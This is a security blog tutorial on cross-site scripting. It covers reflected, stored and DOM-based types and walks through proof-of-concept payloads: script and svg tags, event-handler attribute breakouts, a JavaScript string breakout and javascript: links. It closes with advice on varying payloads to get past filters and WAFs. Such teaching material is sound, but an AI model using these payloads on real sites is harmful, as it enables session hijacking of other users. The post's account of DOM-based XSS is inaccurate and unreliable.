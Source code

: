 ```yaml
---
layout: post
title: Cross-site Scripting (XSS)
description: >

tags: [webapp]
---
```


  **Cross-site Scripting (XSS)** is a vulnerability which allows an attacker to execute malicious JavaScripts or html code via input fields on the victim machine to steal session cookies which can be used to hijack the victim account  

Cross-site Scripting (XSS) is an attack is performed with a crafted malicious Javascript inserted into the application user input which is then stored on the database of the application. Whenever any user visits that particular, the crafted Javascript gets executed and the user session information will be transferred to the attacker server.  

### What are the attacks can be performed?
- Allows an attacker to: 
 - Steal Session Cookies (Can hijack victim session)
 - Redirect users to malicious sites
 - Perform Phishing Attack
 - Prompt users to download Malwares (embedded within the code)
 - Website Defacement  
### Prone Vectors for XSS 
- User Input Fields
- HTTP Headers (User-Agent, Referrer etc) 
## Types of Cross-site Scripting (XSS)   
### Reflected Cross-site Scripting (XSS)
  In this type, the user input will be reflected only once. Whenever the user clicks on the link it gets executed. Hence, the malicious script will be executed once on the victim machines
{:.lead}  
### Stored Cross-site Scripting (XSS)
  In this type, the user input will be stored in the database on the same location. Whenever any user visits the injected page, the malicious script will be executed. Hence, the malicious script will be executed to every user whoever visits the injected page on the victim machine
{:.lead}  
### DOM-based Cross-site Scripting (XSS)
 In this type, the user input will be stored on the DOM Parser of the victim machine. Whenever the user visits the injected page, the script which is stored on the DOM Parser will be executed. Hence, the malicious script will be executed on the victim machine. Here the difference is, "It stores the malicious script on the victim browser (DOM Parser)"
{:.lead}  
### How Does it Work? 
Let's have look at different scenarios:

**Scenario 1:**  
Step1: User entered "Hello" to in search box and reflected the input as shown 

![](https://raw.githubusercontent.com/n0tak1dd1y/n0tak1dd1y.github.io/master/assets/webapp/1.png)

Step2: Press "CTRL+U" to see the source code and note the location of User input as shown  

![](https://raw.githubusercontent.com/n0tak1dd1y/n0tak1dd1y.github.io/master/assets/webapp/2.png)

Step3: Enter below payload in search box as shown
 ```js
<svg onload="alert(1)">
``` 
![](https://raw.githubusercontent.com/n0tak1dd1y/n0tak1dd1y.github.io/master/assets/webapp/3.png) 

Step4: Voila!!! got executed  

![](https://raw.githubusercontent.com/n0tak1dd1y/n0tak1dd1y.github.io/master/assets/webapp/4.png)

Step5: Now Press "CTRL+U" to see the how the script is reflected in the source code  

![](https://raw.githubusercontent.com/n0tak1dd1y/n0tak1dd1y.github.io/master/assets/webapp/5.png)

Step6: Note the script is placed between "<p></p>". It shows that we can pass all the tags which has the syntax as "<></>" or "<>"  
For Example: 
~~~html
<script>alert(1)</script>, <a href="javascript:alert(1)">hello</a>
<img src=1 onerror="alert(1)">
~~~
**Scenario 2:** 

Input as
~~~html
<input type=text name="Search" value="books">
~~~

Your search results are : <input type=text name="Search"  value="books">

**Attack**

Input as
~~~html
<input type=text name="Search" value="books"><script>alert(1)</script>">
<input type=text name="Search" value="books" onmouseover="alert(1)">
~~~

Output as

Your search results are :
~~~html
<input type=text name="Search" value="books"><script>alert(1)</script>">
~~~
Once the page loaded script will be executed
~~~html
<input type=text name=" Search" value="books" onmouseover="alert(1)">
~~~
When the user hover the mouse on books, script will be executed. 

These are called eventhandlers which are responsible for executing the function when an appropriate event is occurred. 
Voila!!! Our scripts are executed. 
In the scenario, the payloads can only be framed as shown: 
It should start with either: ">< or " eventhandlers 
These are the only way to fix the syntax with the malicious script. 
**Scenario 3:**

Input as
~~~html
<input type=text name="search" value="books">
~~~
Output as
~~~html
  Var search="books";
  Var search="books";
~~~

**Attack**

Input as
~~~html
<input type=text name="search" value="books";alert(1);//hell">
~~~
Output as
~~~html
   Var search="books";alert(1);//hell";
   Var search="books";alert(1);//hell";
~~~
Voila!!! our payload got executed

Here the logic is payload sits between " in the javascript syntax.

Hence, we need to fix it with javascript syntax.

Only the below shown payload can be used :
~~~html
  ";alert(1)//11
  ";alert(1)//11
~~~
**Scenario 4: Trigger XSS with links**

Input as
~~~html
   <input type=text name="link" value="any url">
~~~
Output as

Your Search results are as : any url 
**Attack**

Input as
~~~html
  <input type=text name="link" value="<a href=javascript:alert(1)">Click here</a>">
~~~
Output as

Your Search results are as :  Click Here 
Voila!!! The script gets executed on clicking the link
The above mentioned payload can be used to bypass many filters in the current scenarios 
There are many ways to use a particular payload, I have just shown few variations to understand how an xss payload can be created or framed.
Depends on the WAF, filters, we need to use different "EvenHandlers, HTML tags" to perform XSS.
Explore as many functions, tags as possible to be effective in XSS along with encoding techniques

